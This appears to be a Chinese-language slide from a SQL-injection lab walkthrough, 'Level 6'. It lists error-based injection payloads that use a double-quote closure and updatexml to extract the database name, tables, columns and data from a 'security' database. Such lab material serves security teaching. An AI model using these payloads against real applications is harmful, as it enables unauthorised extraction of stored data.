

# 第六关
这一关和上面做法相同，只是闭合的区别
判断是否存在注入：?id=1” and 1=1 -- qwe

判断库名：?id=1" and updatexml(1,concat(0x7e,(SELECT database()),0x7e),1)-- qwe

判断表名：?id=1" and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='security'limit 0,1),0x7e),1)-- qwe

判断列名：?id=1 "and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema='security' and table_name='emails' limit 0,1),0x7e),1)-- qwe

判断数据：?id=1 "and updatexml(1,concat(0x7e,(select id from emails limit 0,1),0x7e),1)-- qwe